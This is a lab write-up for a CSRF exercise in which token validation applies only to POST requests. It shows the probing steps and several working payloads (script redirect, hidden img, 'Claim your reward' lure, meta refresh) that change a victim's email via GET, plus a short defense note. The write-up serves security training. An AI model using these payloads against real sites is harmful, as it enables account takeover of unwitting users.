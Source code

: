 # CSRF where token validation depends on request method

*A concise write‑up using my original steps (verbatim flow) with small, accurate notes. For authorized lab use only.*

---

## 🎯 Goal
**Deliver a link that changes another user’s email address.**

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** deliver link to change the email address of another user.
2. Use creds **wiener:peter** to log in and intercept the change‑email request.
3. Endpoint: **`/my-account/change-email`**.
4. Remove the CSRF param → server replies **`Missing parameter 'csrf'`**.
5. Tried token values: `true`, `"true"`, `1`, `None`, `'true'`, `'1'`, `1%00` → all **invalid token**.
6. Tried same‑length random tokens → **invalid**.
7. Lab description hints: **“CSRF where token validation depends on request method.”**
8. Tried `OPTIONS` → **405 Method Not Allowed**, response has header **`Allow: GET, POST`**.
9. In Burp: **Change request method** from `POST` to **`GET`** and remove `csrf` → **request succeeds**.
10. Because this now works with **GET**, we don’t need an HTML form. Use a JS redirect payload and deliver it to the victim:
    ```html
    <script>
      document.location = "https://0a46009f03a004208229d33300da0062.web-security-academy.net/my-account/change-email?email=abc@normal-user.net";
    </script>
    ```
11. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)

- The app validates the CSRF token **only for POST** (or only for some methods). When you switch to **GET**, the token check is skipped; the victim’s browser sends their **session cookies** with the cross‑site GET request, so the change is authenticated.
- **CORS isn’t needed** for classic CSRF: the browser will send cookies on a top‑level navigation or `<img>`/`<link>`/`<script>` GET automatically; we don’t need to read the response, just trigger the state change.
- **SameSite**: Labs often set `SameSite=None; Secure` or default‑less cookies, so cross‑site GETs still include cookies. If hardened with `SameSite=Lax/Strict`, this technique might be blocked unless it’s a top‑level navigation.

---

## 📦 Alternative exploit wrappers (optional)

- **Pure HTML (no JS):**
  ```html
  <img src="https://0a46009f03a004208229d33300da0062.web-security-academy.net/my-account/change-email?email=abc@normal-user.net" style="display:none">
  ```

- **Clickable lure:**
  ```html
  <a href="https://0a46009f03a004208229d33300da0062.web-security-academy.net/my-account/change-email?email=abc@normal-user.net">
    Claim your reward
  </a>
  ```

- **Meta refresh:**
  ```html
  <meta http-equiv="refresh" content="0;url=https://0a46009f03a004208229d33300da0062.web-security-academy.net/my-account/change-email?email=abc@normal-user.net">
  ```

> Defense: enforce CSRF on **all** state‑changing methods (including GET), check **Origin/Referer**, and use `SameSite` cookies where viable.

---

## 🧾 Raw artifacts (kept exactly)

- Allowed methods header observed: `Allow: GET, POST`
- Working exploit:
  ```html
  <script>document.location="https://0a46009f03a004208229d33300da0062.web-security-academy.net/my-account/change-email?email=abc@normal-user.net"</script>
  ```

---

## 🏁 Result
- By switching the method to **GET**, bypassed the token check and changed the victim’s email upon link visit. **Solved. ✅**

